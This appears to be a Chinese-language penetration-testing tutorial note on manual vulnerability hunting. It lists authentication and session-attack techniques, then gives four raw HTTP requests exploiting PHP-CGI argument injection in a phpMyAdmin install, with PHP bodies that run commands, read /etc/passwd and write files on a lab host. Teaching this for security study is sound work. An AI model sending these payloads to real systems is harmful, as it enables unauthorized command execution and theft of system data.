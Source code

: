 

# 手动漏洞挖掘

* [php反弹shell](./[8-10]--手动漏洞挖掘-php反弹shell.md)
* [命令执行漏洞](./[8-11]--手动漏洞挖掘-命令执行漏洞.md)
* [目录遍历、文件包含漏洞](./[8-12]--手动漏洞挖掘-目录遍历、文件包含漏洞.md)
* [文件上传漏洞](./[8-13]--手动漏洞挖掘-文件上传漏洞.md)
* [SQL注入漏洞](./[8-14]--手动漏洞挖掘-SQL注入漏洞.md)


---
* 手动漏洞挖掘的原则
* 漏洞的本质
* 身份认证漏洞
* 默认安装漏洞


## 手动漏洞挖掘的原则
1. 所有变量
1. 所有头
1. Cookie的变量
1. 逐个变量删除


## 漏洞的本质
1. 数据与指令的混淆
1. 对用户输入信息过滤不严判断失误，误将指令当数据

## 身份认证漏洞
* 针对身份认证
1. 使用常用弱口令/基于字典的密码暴力破解
1. 测试是否锁定账号
1. 测试基于手机号的用户名破解，可以在站内论坛收集用户信息
1. 查看错误秘密提升信息，可以判断用户名或者密码错误
1. 密码嗅探工具可以直接获取密码

* 会话 SessionID
1. Xss / cookie importer
1. SessionID in URL
1. 使用嗅探工具.
1. 测试 SessionID 是否是长期不变的
1. 破译 SessionID 生成算法
    1. Sequencer
    1. 私有算法
    1. 预判下一次登录时生成的 SessionID
    1. 登出后返回测试

* 密码找回时的漏洞
1. 在 URL 中存在密码的散列值，可以直接进行密码设置


## 默认安装漏洞
* phpMyAdmin/setup
1. Burpsuite 测试命令
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10

 <?php
 passthru('id');
 die(); #dir()终止后续的显示
 ?>
```


2. 查看权限
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 64
 
 <?php
 passthru('id');
 passthru('cat /etc/passwd');
 die();
 ?>
```
3. 查看可以使用的命令
``` 
 POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 114
 
 <?php
 passthru('id');
 passthru('cat /etc/passwd');
 passthru('ls');
 passthru('reboot');	#非管理员权限无法重启
 die();
 ?>
```

4. 测试写入权限
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 114
 
 <?php
 passthru('id');
 passthru('echo "123456789" > a.txt');
 passthru('cat a.txt');
 passthru('ls');
 die();
 ?>
```

